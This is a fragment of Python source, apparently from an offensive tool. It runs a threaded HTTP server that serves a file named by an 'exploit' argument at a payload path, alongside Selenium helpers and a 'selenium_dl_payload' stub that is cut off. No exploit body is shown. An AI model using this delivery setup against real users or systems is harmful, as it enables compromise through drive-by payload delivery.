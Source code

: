 ```python

def start_timer(seconds):
    signal.signal(signal.SIGALRM, alarm_handler)
    signal.alarm(seconds)

def convert(driver, element_to_check_for_dict):
    if type(element_to_check_for_dict) is dict:
        first_element_value = list(element_to_check_for_dict.values())[0]
        element_to_check_for_dict = driver.create_web_element(element_id=first_element_value)
    return element_to_check_for_dict

class S(BaseHTTPRequestHandler):
    def _set_headers(self):
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.end_headers()

    def _set_headers_b(self):
        self.send_response(200)
        self.send_header("Content-type", "binary/octet-stream")
        self.end_headers()

    def _html(self, message):
        """This just generates an HTML document that includes `message`
        in the body. Override, or re-write this do do more interesting stuff.
        """
        content = f"<html><body><h1>{message}</h1></body></html>"
        return content.encode("utf8")  # NOTE: must return a bytes object!

    def do_GET(self):
        
        if self.path == '/download':
            self._set_headers()
            self.wfile.write(self._html(download))
        if self.path == f"/{payload_name}":
            self._set_headers_b()
            with open(args.exploit, 'rb') as file: 
                self.wfile.write(file.read()) # Read the file and send the contents 

    def do_HEAD(self):
        self._set_headers()

    def do_POST(self):
        # Doesn't do anything with posted data
        self._set_headers()
        self.wfile.write(self._html("POST!"))

def run(server_class=HTTPServer, handler_class=S, addr="0.0.0.0", port=8000):
    server_address = (addr, port)
    httpd = server_class(server_address, handler_class)

    print(f"Starting httpd server on {addr}:{port}")
    httpd.serve_forever()

def run_web_background():
    run()

def thread_it():
    # do some stuff
    download_thread = threading.Thread(target=run_web_background)
    download_thread.start()

def selenium_dl_payload():
```